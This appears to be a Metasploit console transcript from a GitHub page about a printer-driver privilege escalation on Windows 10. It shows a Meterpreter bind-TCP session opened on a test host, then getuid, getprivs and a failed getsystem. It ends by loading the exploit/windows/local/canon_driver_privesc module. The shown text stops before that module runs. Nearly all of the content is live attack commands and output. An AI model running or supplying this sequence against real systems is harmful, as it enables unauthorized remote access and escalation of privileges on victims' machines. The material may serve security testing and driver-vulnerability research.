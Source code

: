 ### TR150 series Printer Driver Ver.1.00 On Windows 10 20H2

```
msf > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/bind_tcp
PAYLOAD => windows/x64/meterpreter/bind_tcp
msf exploit(multi/handler) > set RHOST 192.168.224.211
RHOST => 192.168.224.211
msf exploit(multi/handler) > exploit

[*] Started bind TCP handler against 192.168.224.211:4444
[*] Sending stage (200262 bytes) to 192.168.224.211
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 192.168.224.211:4444) at 2021-08-09 14:11:47 -0500

meterpreter > getuid
Server username: DESKTOP-DIK4B96\test
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/canon_driver_privesc
[*] Using configured payload windows/meterpreter/reverse_tcp
```
